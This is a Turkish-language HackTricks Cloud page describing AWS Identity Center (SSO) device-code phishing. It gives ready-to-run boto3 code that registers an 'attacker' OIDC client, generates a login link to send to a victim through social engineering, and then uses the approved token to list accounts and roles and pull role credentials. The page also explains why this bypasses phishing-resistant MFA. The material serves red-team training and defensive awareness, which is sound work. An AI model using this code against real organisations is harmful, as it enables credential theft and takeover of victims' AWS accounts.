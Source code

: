 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## AWS Device Code Phishing

İlk olarak [**bu blog yazısında**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) önerildiği gibi, AWS SSO kullanan bir kullanıcıya bir **link** göndermek mümkündür. Eğer **kullanıcı kabul ederse**, saldırgan **kullanıcıyı taklit etmek** ve **Identity Center**'da kullanıcının erişebildiği tüm rollere erişmek için bir **token** alabilir.

Bu saldırıyı gerçekleştirmek için gereksinimler:

* Kurbanın **Identity Center** kullanması gerekiyor
* Saldırganın kurbanın kullandığı **alt alan adını** bilmesi gerekiyor `<victimsub>.awsapps.com/start`

Yukarıdaki bilgilerle, **saldırgan kullanıcıya bir link gönderebilir** ve eğer **kabul edilirse** **saldırgan AWS kullanıcı** hesabına erişim kazanır.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketin Identity Center'da kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir çünkü çoğu şirket burada isimlerini veya isimlerinin bir varyasyonunu kullanacaktır.

Bu bilgiyle, Identity Center'ın yapılandırıldığı bölgeyi elde etmek mümkündür:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Bağlantıyı Kurban İçin Oluştur ve Gönder**

Kurbanın kimlik doğrulaması yapabilmesi için bir AWS SSO giriş bağlantısı oluşturmak üzere aşağıdaki kodu çalıştırın.\
Demo için, bu kodu bir python konsolunda çalıştırın ve daha sonra belirli nesneleri token almak için kullanacağınızdan çıkış yapmayın:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **Mağdurun kabul etmesini bekleyin**

Eğer mağdur **AWS'de zaten oturum açmışsa**, sadece izinleri kabul etmesi gerekecek, eğer oturum açmamışsa, **oturum açması ve ardından izinleri kabul etmesi** gerekecek.\
İşte günümüzdeki istem bu şekilde görünüyor:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim token'ı alın**

Eğer mağdur istemi kabul ettiyse, **kullanıcıyı taklit ederek bir SSO token'ı oluşturmak** için bu kodu çalıştırın:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat boyunca geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"phishing yapılamaz MFA" (webAuth) kullanılsa bile çalıştığını bilmek eğlenceli**. Bunun nedeni, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesidir**. Kullanıcının giriş alanını taklit etmesi gereken diğer phishing saldırılarının aksine, cihaz kodu iş akışı, **bir cihaz tarafından bilinen bir kod** ile hazırlanır ve kullanıcı farklı bir makinede bile giriş yapabilir. İstem kabul edilirse, cihaz, sadece **ilk kodu bilerek**, kullanıcı için **kimlik bilgilerini alabilecektir**.

Daha fazla bilgi için [**bu gönderiyi kontrol edin**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
